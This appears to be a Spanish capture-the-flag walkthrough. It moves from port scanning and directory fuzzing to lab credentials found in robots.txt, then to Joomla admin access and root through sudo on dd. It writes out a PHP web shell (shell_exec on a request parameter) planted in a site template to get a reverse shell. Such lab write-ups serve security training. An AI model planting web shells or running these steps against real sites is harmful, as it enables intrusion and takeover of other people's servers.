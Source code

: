 Escaneo de puertos con Nmap:

![](../../../Images/Pasted%20image%2020240830091228.png)

Observo lo que corre por el puerto 80:

![](../../../Images/Pasted%20image%2020240830092239.png)

Tengo un panel de Login web, pero no tengo ningunas credenciales

Así que haré fuzzing web con Gobuster para encontrar directorios que me puedan dar alguna pista

![](../../../Images/Pasted%20image%2020240830092505.png)

Encontré un /robots.txt, accederé a el:

![](../../../Images/Pasted%20image%2020240830092543.png)

Y encuentro una credenciales, pero al parecer esa contraseña está codificada así que procederé a decodificarla:

![](../../../Images/Pasted%20image%2020240830092614.png)

Entonces tengo admin:sanluis12345, pero haciendo el fuzzing también encontré un /administrator accedo a él con estas credenciales:

![](../../../Images/Pasted%20image%2020240830092737.png)

![](../../../Images/Pasted%20image%2020240830092754.png)

Y estoy dentro de la página web, estoy ante un Joomla v4.1.2

Ahora continuaré a enviarme una reverse shell, para hacerlo voy a `system > Templates > Site Templates > Cassiopeia Details and Files`. Una vez ahí editaré el index.php borrando todo y solo dejando el siguiente codigo:
```
php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
![](../../../Images/Pasted%20image%2020240901154341.png)

Lo guardo y voy a la pagina web del inicio pero ahora me lanzo la rev shell y me pongo a la escucha con Netcat:

![](../../../Images/Pasted%20image%2020240901154620.png)

Recibo la conexión y hago el tratamiento de la TTY

![](../../../Images/Pasted%20image%2020240901154653.png)

## ESCALADA DE PRIVILEGIOS

Revisando en la carpeta /var/backups/hidden, encuentro un .txt que me proporciona una contraseña

![](../../../Images/Pasted%20image%2020240901154835.png)

Escalo al usuario luisillo con esta posible contraseña:

![](../../../Images/Pasted%20image%2020240901154941.png)

Ahora soy luisillo

Ejecuto sudo -l para ver el binario que puedo usar

![](../../../Images/Pasted%20image%2020240901155022.png)

Puedo ser root con el binario Dd

Miro en GTFOBins como puedo escalar con este binario:

![](../../../Images/Pasted%20image%2020240901155313.png)

Lo ejecuto:

![](../../../Images/Pasted%20image%2020240901155254.png)

Y listo, ya soy ROOT
